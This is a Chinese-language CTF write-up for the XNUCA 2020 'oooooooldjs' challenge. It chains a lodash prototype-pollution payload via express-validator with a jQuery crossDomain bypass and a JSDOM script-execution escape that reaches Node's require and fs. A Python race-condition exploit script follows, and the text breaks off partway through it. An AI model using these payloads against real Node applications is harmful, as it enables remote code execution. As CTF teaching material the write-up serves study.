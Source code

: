 # XNUCA_2020_oooooooldjs题解.md



文章首发于[安全客](https://www.anquanke.com/post/id/221388)



题目描述

>`npm audit` may miss something, be careful of the version of `lodash`. There is prototype pollution in `express-validator`, limited but powerful。



npm audit发现lodash有原型链污染漏洞

```
# Run  npm update lodash --depth 2  to resolve 1 vulnerability
                                                              
  Low             Prototype Pollution                         
                                                              
  Package         lodash                                      
                                                              
  Dependency of   express-validator                           
                                                              
  Path            express-validator > lodash                  
                                                              
  More info       https://npmjs.com/advisories/1523      
```



在https://snyk.io/test/npm/express-validator/2.21.0中查看lodash中出现原型链污染的地方，依次下断点

传入json数据:`{"233":123}`发现：

![image-20201031215650020](https://raw.githubusercontent.com/Explorersss/photo/master/20201031215650.png)



调用了存在原型链污染的set方法，且[233]不为object的键值，在这里可以触发原型链污染

一波测试后得到原型链污染的payload:`{".\"].__proto__[\"crossDomain":{"1":"2"}}`，但是不能控制原型链污染的值



审计题目代码发现，非常有意思的两个地方

1. 显眼的dangerous
   ![image-20201031220029530](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220029.png)

2. 这里自己实现了数据库的CURD四种方法

学习了一波后发现第一点可以触发RCE

```javascript
const { JSDOM } = require("jsdom");

new JSDOM(`
<body>
  <script>
    const outerRealmFunctionConstructor = Node.constructor;
    const process = new outerRealmFunctionConstructor("return process")();
    const require = process.mainModule.require;

    // Game over!
    const fs = require('fs');
    console.log(fs.readdirSync('.'));
  </script>
</body>
`, { 
  runScripts: "dangerously" 
});
```



在util.js中定义了唯一会用到jsdom的函数



```javascript
const {
	JSDOM
} = require("jsdom")
const {
	window
} = new JSDOM(``, {
	url: originUrl,
	runScripts: "dangerously"
})
// server side `$` XD
const $ = require('jquery')(window)

const requests = async (url, method) => {
	let result = ""
	try {
		result = await $.ajax({
			url: url,
			type: method,
		})

		console.log(result)
	} catch (err) {
		console.log(err)
		result = {
			data: ""
		}
	}

	return result.data
}
```



jquery的ajax有个特性是如果返回的content-type是text/javascript等代表着js脚本，那么便会执行js，结合上面的jsdom从而RCE，但是在低版本的话确实可以这么做，但是在高版本jquery进行了限制，如果是跨域请求便不会执行脚本

调试jquery代码发现：

![img](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220811.jpg)



这里会覆盖我们的content-type，继续调试发现设置crossDomain的逻辑

![image-20201031220937991](https://raw.githubusercontent.com/Explorersss/photo/master/20201031220938.png)

如果s.crossDomain == null就会进入是否跨域的判断

利用前面的原型链污染从而绕过jquery的跨域限制

还剩下一个问题，我们如何传入自己的url

express开着一个中间件限制了我们url,而且也不让更新url类型的数据

```javascript
const middlewares = [
	// should be
	body('*').trim(),
	body('type').if(body('type').exists()).bail().isIn(['url', 'text'])
	.withMessage("type must be `url` or `text`"),
	body('block').if(body('type').exists()).notEmpty()
	.withMessage("no `block` content").bail()
	.if(body('type').isIn(['url'])).isURL({
		require_tld: false
	})
	.custom((value, {
		req
	}) => new URL(value).host === host)
	.withMessage("invalid url!"),
	(req, res, next) => {
		const errors = validationResult(req)
		if (!errors.isEmpty()) {
			return res.status(400).json({
				errors: errors.array()
			})
		}
		next()
	}
]
```



回到我们刚刚说的第二点有趣的地方，这个简单的数据库并不支持事务功能，也就是说删除type和data并不会同时删除是存在一定的时间差的，相关代码如下

```javascript
D(id) {
		let di, dt
		for (const index in this.datas) {
			if (this.datas[index].id === id) {
				dt = this.types[index]
				this.types.splice(index, 1)
				di = index
			}
		}
		if (dt === 'url') {
			requests(this.datas[di].block, "DELETE").finally(()=>{
				this.datas = this.datas.filter((value)=>value.id !== id)
			})
		} else {
			this.datas = this.datas.filter((value)=>value.id !== id)
		}
	}
```



在删除了type后，他进行了一个相当耗时的操作：访问url，之后才删除data，又因为这里是一个链式删除，一个接着一个删除，所有type删除完后它可能才删除一个data

于是有：

```python
import requests
challenge = "http://eci-2ze1whgyeh7v30y5j8yh.cloudeci1.ichunqiu.com:8888"
def insertUrl(url):
    burp0_url = challenge+"/data"
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"type": "url", "block": url}
    result = {}
    while True:
        try:
            result = requests.post(burp0_url, headers=burp0_headers, data=burp0_data).json()
        except Exception as e:
            continue
        return result

def insertData(data):
    burp0_url = challenge+"/data"
    burp0_headers = {"Pragma": "no-cache", "Cache-Control": "no-cache", "Upgrade-Insecure-Requests": "1", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9", "Accept-Encoding": "gzip, deflate", "Accept-Language": "zh-CN,zh;q=0.9", "Connection": "close", "Content-Type": "application/x-www-form-urlencoded"}
    burp0_data = {"type": "text", "block": data}
    r = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    return r.json()

def setLongLine(length=2000):
    endId=""
    url = "http://localhost:8888/data/fake-uuid"
    count = 0
    while count < length:
        count+=1
        data = insertUrl(url)
        url = "http://localhost:8888/data/"+data["data"]["id"]
        endId = data["data"]["id"]
```